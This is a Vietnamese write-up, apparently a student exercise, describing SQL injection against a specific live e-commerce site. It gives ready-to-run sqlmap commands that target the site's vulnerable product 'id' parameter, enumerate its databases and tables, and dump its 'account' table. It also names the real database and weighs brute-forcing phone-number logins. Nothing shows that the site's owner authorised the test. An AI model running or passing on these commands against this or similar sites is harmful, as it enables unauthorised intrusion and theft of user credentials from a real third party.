

# Mục tiêu
- [x] Tìm kiếm một trang web sử dụng cơ sở dữ liệu MySQL để thực hiện kiểm thử.
- [x] Tìm kiếm các parameter có nguy cơ bị tấn công trên trang web.
- [x] Sử dụng sqlmap để thực hiện tấn công tự động vào các parameter đã tìm được, tìm kiếm nội dung nhạy cảm chứa trong các bảng khác nhau. 
- [ ] Sử dụng thông tin đã tìm được để thực hiện các thao tác tiếp theo.

# Thực nghiệm
Mọi thực nghiệm được áp dụng lên trang web `https://2fly.com.vn/`, có vẻ trang web đã không được cập nhật hay sử dụng trong thời gian dài, dẫn tới nhiều nội dung bị lỗi, không hiển thị hoặc không còn hiển thị nội dung nào. Các cuộc tấn công trong lần thực nghiệm này đều nhằm mục đích kiểm thử bảo mật, không mang ý định tấn công người dùng bất hợp pháp.

## Nội dung thực nghiệm

Qua quá trình sử dụng web, tôi đã tìm được một số parameter:
- q: nội dung tìm kiếm, xuất hiện khi nhập nội dung vào thanh tìm kiếm hoặc chọn một tab bất kỳ trên giao diện trang web.
- id: mã hàng, xuất hiện khi chọn một sản phẩm bất kỳ.

Sử dụng sqlmap lên URL chứa các parameter đã tìm được để kiểm thử:

```bash
python3 sqlmap.py -u "https://2fly.com.vn/products.php?q=a" --dbs
```

- **q**: không thể thực hiện tấn công trên parameter này:



```bash
python3 sqlmap.py -u "https://2fly.com.vn/shop.php?id=12" --dbs
```

- **id**: có thể thực hiện tấn công SQLi, sqlmap trả về được thông tin rằng cơ sở dữ liệu đang MySQL v5.0.12 trở lên (MariaDB). Ngoài ra đã bruteforce được tên 2 cơ sở dữ liệu là `information_schema` và `fly11308_2fly`:


Khi đã xác định được thông tin về cơ sở dữ liệu, ta có thể sử dụng thêm các tuỳ chọn `-D` (tìm kiếm trên một database nhất định), `-T` (tìm kiếm trên một table nhất định), `-C` (tìm kiếm trên một column nhất định), `--tables` (tìm kiếm thông tin về tên các table), `--dump` (trả về tất cả thông tin trong bảng), `--threads` (sử dụng đa luồng để tìm kiếm thông tin, tăng tốc độ bruteforce),...

Sử dụng `python3 sqlmap.py -u "https://2fly.com.vn/shop.php?id=12" -D fly11308_2fly --tables --threads=10 ` để trả về tên các bảng trong cơ sở dữ liệu `fly11308_2fly`.


Có thể thấy trong các tên được trả về có bảng `account`, trong đó có thể sẽ chứa thông tin đăng nhập của một số người dùng. Tiếp tục sử dụng `python3 sqlmap.py -u "https://2fly.com.vn/shop.php?id=12" -D fly11308_2fly -T account --dump --threads=10` để trả về nội dung của bảng `account`.


Khi tới giao diện đăng nhập, ta có thể thấy trang web yêu cầu số điện thoại thay cho tên người dùng và mật khẩu. Vì chưa thể xác định được số điện thoại chính xác nên nếu muốn sử dụng có thể sẽ phải bruteforce lên tới 2 tỷ lần (1 tỷ số điện thoại cho mỗi mật khẩu), việc sẽ sẽ gây tổn thất lớn về thời gian nếu không có được sự hỗ trợ của phần cứng máy tính đủ tốt.